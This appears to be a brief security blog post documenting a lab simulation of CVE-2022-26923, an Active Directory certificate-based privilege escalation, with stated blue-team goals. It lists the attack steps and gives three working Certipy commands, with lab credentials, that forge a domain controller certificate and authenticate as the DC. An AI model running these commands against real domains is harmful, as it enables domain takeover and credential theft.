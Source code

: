 ```yaml
---
title: CVE-2022-26923
published: true
---
```


CVE-2022-26923 is a vulnerability found by ly4k in the post below. Please read his post first as I will not go over technical details about the attack. This post is focused on simulation details & blue team ideas on the network perspective. 

https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4

basic overview of the attack 
1. attacker creates a new machine account as an unprivileged domain user
2. changes dnsHostName attribute of the new machine account to Domain Controller
3. Sends a certificate request using the new machine account
4. Retrieves a Domain Controller certificate
5. Authenticate to Domain Controller with the certificate to obtain NT hash of the Domain Controller account
6. Attack using the NT hash

## [](#header-2)Simulation - Attack
**Attacker**
- IP: 192.168.10.55
- OS: Kali Linux
- Certipy: 3.0.0 (3db9123077233fb0c5f673f78d43b47665e6aea4)

**Victim**
- IP: 192.168.10.11
- OS: Windows Server 2019
- OSVersion: 10.0.17763

Pcap - 2022-05-11-cve-2022-26923.pcap

| Time | Command | Description |
|:----|:---|:---|
| 2022-05-11T07:14:58+00:00 | `certipy account create 'f1.ad.lab.ch/joe:Testing123!@f1-dc-01.f1.ad.lab.ch' -user 'joepc' -dns 'f1-dc-01.f1.ad.lab.ch' -debug` | create a new machine as joe |
| 2022-05-11T07:17:15+00:00 | `certipy req 'f1.ad.lab.ch/JOEPC$:9u3SkJTdBAkv9vz4@f1-dc-01.f1.ad.lab.ch' -ca F1-DC-01-CA -template Machine` | certificate request |
| 2022-05-11T07:18:44+00:00 | `certipy auth -pfx f1-dc-01.pfx -dc-ip 192.168.10.11` | authenticate to dc with certificate |

![](assets/certipy_auth.png)
